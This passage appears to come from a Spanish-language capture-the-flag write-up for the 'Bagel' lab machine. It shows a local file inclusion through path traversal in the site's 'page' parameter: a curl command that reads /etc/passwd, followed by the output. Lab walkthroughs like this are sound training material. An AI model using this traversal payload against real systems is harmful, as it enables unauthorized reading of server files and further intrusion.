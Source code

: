 ![imagen1](/assets/images/Bagel/bagel1.png)

![imagen2](/assets/images/Bagel/bagel2.png)

En la página principal nos encontramos que está utilizando page para traer el index.html, por lo que intentamos un lfi con directory pass traversal y logramos leer el archivo /etc/passwd.

```shell
❯ curl "http://bagel.htb:8000/?page=../../../../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
<SNIP>
```
